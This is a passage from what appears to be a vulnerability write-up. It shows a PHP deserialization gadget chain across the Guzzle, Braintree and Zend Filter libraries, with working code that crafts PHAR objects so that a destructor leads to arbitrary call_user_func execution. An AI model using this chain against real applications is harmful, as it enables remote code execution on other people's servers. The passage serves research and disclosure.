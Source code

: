 ```php
public function filter($value)
{
  $chain = clone $this->filters;
  $valueFiltered = $value;
  foreach ($chain as $filter) {
      $valueFiltered = call_user_func($filter, $valueFiltered);
  }

  return $valueFiltered;
}
```
File: [vendor/zendframework/zend-filter/src/FilterChain.php#L220-L230](https://github.com/zendframework/zend-filter/blob/69f70df9851b39fc2305c2c3e63e92811f5f2c73/src/FilterChain.php#L220-L230)


### Craft the PHAR archive

The following PHP code is used to generate the objects, where FnStream's constructor receives the PHP function to be executed on `call_user_func()` and one parameter so when FnStream's `__destruct()` is executed, the callstack ends up on the FilterChain's `filter()` executing the instruction `call_user_func($function, $parameter)`.

```php
<?php

namespace GuzzleHttp\Psr7 {
  class FnStream {
    public $_fn_close;

    public function __construct($function, $parameter) {
      $this->_fn_close = array(new \Braintree\PaginatedCollection($function, $parameter), 'valid');
    }
  }
}

namespace Braintree {
  class PaginatedCollection {
     private $_pager;
     private $_currentPage;

     public function __construct($function, $parameter) {
       $this->_pager = array('object' => new \Zend\Filter\FilterChain($function), 'method' => 'filter', 'query' => $parameter);
      $this->_currentPage = 0;
    }
  }
}

namespace Zend\Filter {
  class FilterChain {
    protected $filters;

    public function __construct($function) {
      $this->filters = new \SplFixedArray(1);
      $this->filters[0] = $function;
    }
  }
}
```
